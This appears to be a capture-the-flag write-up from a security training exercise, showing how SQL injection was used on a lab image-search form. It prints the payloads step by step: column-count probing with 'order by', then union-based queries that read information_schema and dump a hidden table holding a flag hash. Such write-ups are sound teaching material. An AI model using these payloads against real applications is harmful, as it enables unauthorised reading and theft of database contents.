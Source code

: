 # SQL injection

## vulnerability
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
> 
> see https://owasp.org/www-community/attacks/SQL_Injection

## exploit
Home -> SEARCH IMAGE

1. see the form behavior<br/>
```
1
```
->
```
ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```
***
```
2
```
->
```
ID: 2 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42
```
***
2. error based SQL injection<br/>
```
1 order by 1--
```
->
```
ID: 1 order by 1-- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```
***
```
1 order by 2--
```
->
```
ID: 1 order by 2-- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```
***
```
1 order by 3--
```
->
```
(no output)
```
***
We can assume there are 2 columns extracted from table.

3. union based SQL injection<br/>
```
1 union select null, table_name information_schema.tables--
```
->
```
ID: 1 union select null, table_name from information_schema.tables-- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
...
ID: 1 union select null, table_name from information_schema.tables-- 
Title: list_images
Url :
...
```
***
```
1 union select null, column_name from information_schema.columns--
```
->
```
...
ID: 1 union select null, column_name from information_schema.columns-- 
Title: id_comment
Url : 
ID: 1 union select null, column_name from information_schema.columns-- 
Title: url
Url : 
ID: 1 union select null, column_name from information_schema.columns-- 
Title: title
Url : 
```
***
```
1 union select id, comment from list_images--
```
->
```
ID: 1 union select id, comment from list_images-- 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
```

## reference
* https://owasp.org/www-community/attacks/SQL_Injection
* https://crackstation.net/ (for md5 decoding)

